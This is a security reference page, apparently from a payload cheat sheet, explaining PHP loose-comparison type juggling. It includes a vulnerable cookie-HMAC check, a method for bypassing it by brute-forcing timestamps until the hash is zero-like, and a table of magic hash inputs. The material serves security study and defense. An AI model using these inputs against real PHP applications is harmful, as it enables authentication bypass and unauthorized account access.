 # PHP Juggling type and magic hashes

PHP provides two ways to compare two variables:

- Loose comparison using `== or !=` : both variables have "the same value".
- Strict comparison using `=== or !==` : both variables have "the same type and the same value".

## Type Juggling

### True statements

```php
var_dump('0010e2'   == '1e3');           # true
var_dump('0xABCdef' == ' 0xABCdef');     # true PHP 5.0 / false PHP 7.0
var_dump('0xABCdef' == '     0xABCdef'); # true PHP 5.0 / false PHP 7.0
var_dump('0x01'     == 1)                # true PHP 5.0 / false PHP 7.0
var_dump('0x1234Ab' == '1193131');
```

```php
'123'  == 123
'123a' == 123
'abc'  == 0
```

```php
'' == 0 == false == NULL
'' == 0       # true
0  == false   # true
false == NULL # true
NULL == ''    # true
```

### NULL statements

```php
var_dump(sha1([])); # NULL
var_dump(md5([]));  # NULL
```

### Example vulnerable code

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['$expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
	... 
```

The $cookie variable is provided by the user. The $key variable is a secret and unknown to the user.

If we can make the calculated hash string Zero-like, and provide "0" in the $cookie['hmac'], the check will pass.

```
"0e768261251903820937390661668547" == "0"
```

We have control over 3 elements in the cookie:
- $username - username you are targetting, probably "admin"
- $hmac - the provided hash, "0"
- $expiration - a UNIX timestamp, must be in the future

Increase the expiration timestamp enough times and we will eventually get a Zero-like calculated HMAC.

```
hash_hmac(admin|1424869663) -> "e716865d1953e310498068ee39922f49"
hash_hmac(admin|1424869664) -> "8c9a492d316efb5e358ceefe3829bde4"
hash_hmac(admin|1424869665) -> "9f7cdbe744fc2dae1202431c7c66334b"
hash_hmac(admin|1424869666) -> "105c0abe89825a14c471d4f0c1cc20ab"
...
hash_hmac(admin|1835970773) -> "0e174892301580325162390102935332" // "0e174892301580325162390102935332" == "0"
```

## Magic Hashes - Exploit

If the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.

| Hash | “Magic” Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## References

* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
* [Magic Hashes - WhieHatSec](https://www.whitehatsec.com/blog/magic-hashes/)
* [PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
